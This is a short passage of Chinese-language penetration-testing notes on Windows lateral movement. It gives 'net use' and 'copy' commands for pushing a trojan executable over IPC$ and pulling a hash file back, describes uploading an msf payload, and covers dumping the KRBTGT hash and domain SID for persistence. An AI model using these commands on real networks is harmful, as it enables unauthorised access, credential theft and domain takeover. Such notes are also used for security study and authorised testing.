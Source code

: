 IPC(Internet Process Connection)是共享"命名管道"的资源，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限,在远程管理计算机和查看计算机的共享资源时使用

建立IPC$连接上传木马 建立后可以访问目标机器的文件(上传、下载)，也可以在目标机器上运行命令。上传和下载文件直接通过copy命令就可以，不过路径换成**UNC路径**。

```
常用命令:

net use \\ip\ipc$ passord /user:username      建立IPC连接

copy hacker.exe \\10.10.10.10\C$\windows\temp   复制本地文件到目标服务器

copy \\10.10.10.10\C$\windows\temp\hash.txt    复制目标服务器文件到本地
```

这个也是一种上线的方式，通过msf生成payload.exe，然后通过IPC上传，运行，达到上线的目的

https://www.cnblogs.com/yokan/p/14189154.html

# 权限维持

## 域控信息收集

![image-20220909134233967](images/30.png)

通过`hashdump`，抓取到了KRBTGT账户NTLM密码哈希，即`82df......`

然后利用logonpasswords获取域的sid

![image-20220909134656633](images/31.png)
